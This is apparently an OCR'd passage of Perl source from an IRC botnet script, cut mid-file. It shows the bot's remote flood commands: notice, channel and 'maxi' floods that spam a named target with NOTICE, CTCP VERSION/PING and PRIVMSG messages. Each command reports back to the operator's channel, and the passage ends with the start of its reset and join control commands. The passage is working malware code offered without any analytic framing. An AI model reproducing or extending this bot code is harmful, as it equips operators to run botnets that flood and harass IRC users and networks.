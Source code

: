       for($i=0; $i<=10; $i+=1){ 

         sendraw($IRC_cur_socket, "NOTICE ".$1." :w3tFL00D\n"); 

   } 

      sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3NoticeFlood12]14 Excecuted on ".$1." "); 

}       

# Channel Flood, @channelflood 

if ($funcarg =~ /^channelflood/) { 

   for($i=0; $i<=25; $i+=1){  

      sendraw($IRC_cur_socket, "JOIN #".(int(rand(99999))) ); 

   } 

      sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3ChannelFlood12]14 Excecuted "); 

} 

# Maxi Flood, @maxiflood 

if ($funcarg =~ /^maxiflood(.*)/) { 

   for($i=0; $i<=15; $i+=1){ 

         sendraw($IRC_cur_socket, "NOTICE ".$1." :Iyzan_Loves_you,_;)\n"); 

         sendraw($IRC_cur_socket, "PRIVMSG ".$1." :\001VERSION\001\n"); 

         sendraw($IRC_cur_socket, "PRIVMSG ".$1." :\001PING\001\n"); 

         sendraw($IRC_cur_socket, "PRIVMSG ".$1." :Iyzan_Loves_you,_;\n");          

   } 

      sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3M4Xi-Fl00d12]14 Excecuted on ".$1." "); 

} 

###################### 

#  irc    # 

###################### 

         if ($funcarg =~ /^reset/) { 

            sendraw($IRC_cur_socket, "QUIT :"); 

         } 

         if ($funcarg =~ /^join (.*)/) { 

            sendraw($IRC_cur_socket, "JOIN ".$1); 
